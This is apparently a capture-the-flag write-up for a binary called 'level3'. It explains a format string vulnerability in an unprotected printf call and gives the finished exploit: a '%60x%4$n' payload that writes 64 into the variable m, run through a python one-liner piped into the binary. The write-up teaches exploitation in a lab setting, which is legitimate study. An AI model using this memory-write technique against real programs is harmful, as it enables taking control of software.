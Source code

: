 While decompiling the binary we can observe the use of the function `printf` without any protection. We could then exploit this function to write a wanted value in a desired variable. For exemple, we could write `0x40` (64 in decimal) in the variable `m`.

## Investigation

First, we need to know where or input ar located in the stack. For this we can give the binary an input like `AAAA.%x.%x.%x.%x.%x.%x.%x.%x`. Giving this, we got the ouput
```
AAAA.200.b7fd1ac0.b7ff37d0.41414141.2e78252e.252e7825.78252e78.2e78252e
```
We can then observe that our input string is the 4th argument in the stack.

Second, we need to know where the variable `m` is stored. We can execute `objdump -t ./level3 | grep m`.
```
0804988c g     O .bss   00000004              m
```
We now know that `m` is located at `0x0804988c`.

## Exploit

We can use an exploit like `<target location>%<value - 4>x%<string argument>$n`. In our case that would give us `\x8c\x98\x04\x08%60x%4$n` (location written in little endian).

```shell
(cat <(python -c 'print "\x8c\x98\x04\x08%60x%4$n"') -) | ./level3
```
